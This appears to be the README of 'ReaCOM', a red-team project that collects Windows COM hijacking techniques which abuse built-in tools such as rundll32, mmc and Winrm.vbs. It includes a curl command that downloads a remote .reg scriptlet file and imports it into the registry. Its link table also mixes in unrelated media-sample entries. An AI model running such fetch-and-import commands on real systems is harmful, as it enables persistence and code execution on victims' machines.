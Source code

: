 # ReaCOM project

<table>
 <tr>
  <td><a href="Classes/Runonce.md">Runonce.exe/COM Hijacking</a></td>
  <td><a href="Classes/URLProtocol.md">URLProtocol/COMHijacking</a></td>
  <td><a href="Classes/Signature-Tools/Openwith.md">Openwith.exe/COMHijacking</a></td>
  <td><a href="Classes/rundll32.md">Rundll32/CLSID</a></td>
 </tr>
 <tr>
  <td><a href="Classes/xwizard.md">xwizard/CLSID</a></td>
  <td><a href="Classes/xwizards.dll.md">DLL/CLSID</a></td>
  <td><a href="Classes/mmc.md">MMC/CLSID</a></td>
 </tr>
 <tr>
  <td><a href="Classes/Signature-Tools/explorer.md">Explorer.exe/COMHijacking</a></td>
  <td><a href="Classes/COMScripetlet.reg">Scripetlet/File</a></td>
  <td><a href="Classes/Powershell.md">Powershell/CLSID</a></td>
 </tr>
 <tr>  
  <td><a href="Classes/Verclsid.md">Verclsid.exe</a></td>
  <td><a href="Classes/Winrm.md">Winrm.vbs</a></td>
  <td><a href="Classes/Winrm.md">Winrm.cmd</a></td>
 </tr>
 <tr>
  <td><a href="Classes/prncnfg.md">Prncnfg.vbs</a></td>
  <td><a href="Samples/CameraGetPreviewFrame">Being implmented</a></td>
  <td><a href="Samples/CameraProfile">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/CameraResolution">Being implmented</a></td>
  <td><a href="Samples/CameraStreamCoordinateMapper">Being implmented</a></td>
  <td><a href="Samples/CameraStreamCorrelation">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/LiveDash">Being implmented</a></td>
  <td><a href="Samples/D2DPhotoAdjustment">Being implmented</a></td>
  <td><a href="Samples/MediaEditing">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/MediaImport">Being implmented</a></td>
  <td><a href="Samples/XamlCustomMediaTransportControls">Being implmented</a></td>
  <td><a href="Samples/MIDI">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/Playlists">Being implmented</a></td>
  <td><a href="Samples/PlayReady">Being implmented</a></td>
  <td><a href="Samples/CameraOpenCV">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/SimpleImaging>Being implmented</a></td>
  <td><a href="Samples/SpatialSound">Being implmented</a></td>
  <td><a href="Samples/SystemMediaTransportControls">Being implmented</a></td>
 </tr>

</table>
   
  ### ReaCOM  
ReaCOM is the project that has a multiple of contributes to understand component object model COM. It provide you more than one tool to use COM. This project is based on Scriptlet, which it means, All of the tools that you would like to use from my project are based on Scriptllet execution.



ReaCOM targets COM techniques from different types of use and shows some research from different authors, COM object is one of the most popular techniques for the red team in twitter and everywhere, so that we are all here to show some tools can do hijacking COM objects and execute its code by abusing some tools in system operating.
 

### Ackknowledgement
* [Bohops](https://twitter.com/bohops)
* [Matt Nelson ](https://twitter.com/enigma0x3)

* [Casey Smith](https://twitter.com/subTee)


### General Acknowledgement
Thanks everyone for working together to find these great tools.



* [Start using COM technique after watching this](![GIF](https://user-images.githubusercontent.com/25440152/59564365-c880f000-8ffa-11e9-914d-d974baf5dfbc.gif)
)



To enjoy hijacking you need to do the steps below:
* Downloading registry file
* Importing registry file
* Taking a look and learning how Scriptlet works.

![GIF](https://user-images.githubusercontent.com/25440152/59564365-c880f000-8ffa-11e9-914d-d974baf5dfbc.gif)

The command used in the gif above:
```
curl.exe --remote-time https://raw.githubusercontent.com/homjxi0e/ReaCOM/master/Classes/COMScripetlet.reg --write-out rrr.reg --output tttt.reg; echo '' '' ; reg import .\tttt.reg

```
### (Useful references)
* Helpful techniques can help you to know how to use project tools.
* [URL Protocol](https://msdn.microsoft.com/en-us/windows/desktop/aa767914)

* Part 1 [COM component object model](https://docs.microsoft.com/en-us/windows/desktop/com/component-object-model--com--portal)
* Part 2 [COM component object model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)
